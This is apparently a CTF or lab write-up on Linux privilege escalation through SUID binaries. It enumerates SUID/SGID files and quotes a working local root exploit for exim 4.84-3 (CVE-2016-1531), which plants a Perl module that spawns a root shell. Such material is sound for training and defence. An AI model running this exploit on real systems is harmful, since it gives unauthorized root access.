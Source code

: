 # [Task 11] SUID / SGID Executables - Known Exploits 
Find all the SUID/SGID executables on:
```find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null``` here is the result
```console
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```

Note that /usr/sbin/exim-4.84-3 appears in the results. After some research: I found [this](https://www.exploit-db.com/exploits/39535)
```console
#!/bin/sh
# CVE-2016-1531 exim <= 4.84-3 local root exploit
# ===============================================
# you can write files as root or force a perl module to
# load by manipulating the perl environment and running
# exim with the "perl_startup" arguement -ps. 
#
# e.g.
# [fantastic@localhost tmp]$ ./cve-2016-1531.sh 
# [ CVE-2016-1531 local root exploit
# sh-4.3# id
# uid=0(root) gid=1000(fantastic) groups=1000(fantastic)
# 
# -- Hacker Fantastic 
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```
then run the exploit
```console
user@debian:~$ /home/user/tools/suid/exim/cve-2016-1531.sh.
```
